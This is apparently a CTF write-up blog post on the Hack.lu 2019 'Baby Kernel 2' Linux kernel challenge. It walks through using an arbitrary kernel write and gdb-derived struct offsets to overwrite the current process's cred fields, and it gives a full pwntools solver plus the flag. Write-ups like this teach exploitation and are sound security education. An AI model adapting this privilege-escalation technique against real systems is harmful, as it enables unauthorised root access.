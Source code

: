 ```yaml
---
layout: post
title: Intro to Kernel Pwning - Hack.lu 2019
date: 2019-11-03 19:54
summary: A great beginner Linux kernel pwn from Hack.lu 2019
categories:  CTF kernel linuk kernelpwn hacklu hack.lu
---
```


## Intro Kernel Pwn: Baby kernel 2 from [Hack.lu](https://fluxfingersforfuture.fluxfingers.net/challenges) 2019 CTF

### Challenge Summary:

Baby Kernel 2 is the second step in a series of intro kernel pwning challenges, beginning with last year's Hack.lu Baby Kernel 1. This year we are given a kernel that when ran, presents us with the following options:
1. Read from a memory address
2. Write to a memory address
3. Get our UID
4. Read a file

![kernel menu](/images/baby_kernel_2-menu.png)

Given the information we have thus far, we can assume that we need a way to gain elevated privilidges in order to read some file… maybe a flag file… ( •͡˘ _•͡˘).

### Further Analysis:

After unpacking the init file system and dumping the baby_kernel_2.ko module into a decompiler, you’ll notice that we are given a free 8-byte write anywhere in kernel land. This is triggered when using the write option in the menu.

To further understand this challenge, we must also recognize that we have System.map. The symbol table contains all of the kernel’s symbol names and their addresses. Symbols provide names of important information in a binary (functions, variables, etc.) and map these names to their location in memory. In this case, System.map provides us with the symbols for vmlinux. Most notably, current_task.

`current_task`(also referred to as `current`) is a pointer to the current executing task's `task_struct` [`task_struct`](http://140.120.7.21/LinuxRef/ProcMana/ProcessManaging.html). The kernel refrences each task using its task_struct. The task struct contains information about a process like its credentials and memory layout. We are specifically interested in the current process' [`cred_struct`](https://github.com/torvalds/linux/blob/master/include/linux/cred.h). If we can overwrite the current process' `cred_struct` to elevate its privilidges to root, we can read any file.

{% highlight c %}
struct task_struct {
    ...
	/* Process credentials: */

	/* Tracer's credentials at attach: */
	const struct cred __rcu		*ptracer_cred;

	/* Objective and real subjective task credentials (COW): */
	const struct cred __rcu		*real_cred;

	/* Effective (overridable) subjective task credentials (COW): */
	const struct cred __rcu		*cred;
	...
{% endhighlight %}

{% highlight c %}
struct cred {
	...
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	...
{% endhighlight %}

Every `task_Struct` contains a pointer to the processes's `cred_struct`. In order to accomplish overwriting the current processes's creds with our 8 byte write, we need to know the offset of the `cred_struct` in the `task_struct`. Once we know the address of the `cred_struct` we can get the offset of the privilidge ID's and overwrite them. We can figure out the offsets using a little gdbfoo:

```
(gdb) ptype /o struct task_struct
...
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
...
```

```
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
```

Now that we know all the offsets, we can overwrite the creds of the current process. For this challenge, I only needed to overwrite `fsuid` and `fsgid` in order to gain privs to read `flag`. Here is my complete solver:

{% highlight python %}
from pwn import *

conn = remote("babykernel2.forfuture.fluxfingers.net", 1337)

def read(addr):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('> ', str(hex(addr)))
    resp = conn.recvuntil("---").split()[22]
    return resp

def write(addr, val):
    conn.sendlineafter("> ",str(2))
    conn.sendlineafter("> ",str(hex(addr)))
    conn.sendlineafter("> ",str(val))
    return

def show_flag():
    conn.sendlineafter("> ",str(4))
    conn.sendlineafter("> ","flag")
    print(conn.recvuntil("}"))

#The pointer to current_task struct from System.map stored at current_task
current_task_ptr = 0xffffffff8183a040
current_task = read(current_task_ptr) #address of task_struct
log.info("current_task struct: 0x%s" % current_task)

"""
(gdb) ptype /o struct task_struct
/* 1008      |     8 */    const struct cred *ptracer_cred;
/* 1016      |     8 */    const struct cred *real_cred;
/* 1024      |     8 */    const struct cred *cred;
"""

#Offset of cred_struct into task_struct obtained from gdb
cred_off = 1024 #ptype /o struct task 0x400
cred_struct_ptr = int(current_task, 16) + cred_off

#cred_struct location
cred_struct = int(read(cred_struct_ptr), 16)
log.info("cred_struct: 0x%x" % cred_struct)

"""
(gdb) ptype /o struct cred
/* offset    |  size */  type = struct cred {
/*    0      |     4 */    atomic_t usage;
/*    4      |     4 */    kuid_t uid;
/*    8      |     4 */    kgid_t gid;
/*   12      |     4 */    kuid_t suid;
/*   16      |     4 */    kgid_t sgid;
/*   20      |     4 */    kuid_t euid;
/*   24      |     4 */    kgid_t egid;
/*   28      |     4 */    kuid_t fsuid;
/*   32      |     4 */    kgid_t fsgid;
"""

#exploit part
log.info("Overwriting fsuid")
write(cred_struct+28, 0) #set fsuid = 0, 0 = root privilidges

log.info("Overwriting fsgid")
write(cred_struct+32, 0) #set fsgid = 0

show_flag()
{% endhighlight %}


## Summary

Overall, I thought this was a great intro kernel pwning challenge, and I would highly reccommend it to anyone wanting to try kernel pwning. The key to solving this challenge is knowing a bit about Linux kernel symbols and some GDB skills to obtain offsets. 

If you are using Ghidra you must update to a version >= 9.1. For some reason Ghidra releases below 9.1 cannot handle decompiling kernel modules.

Flag: flag{nicely_done_this_is_how_a_privesc_can_also_go}

Solver is on [github]()

### Creds
- [@Kallsyms](https://twitter.com/kallsyms)
- [@Hack.lu](https://twitter.com/hack_lu?lang=en)
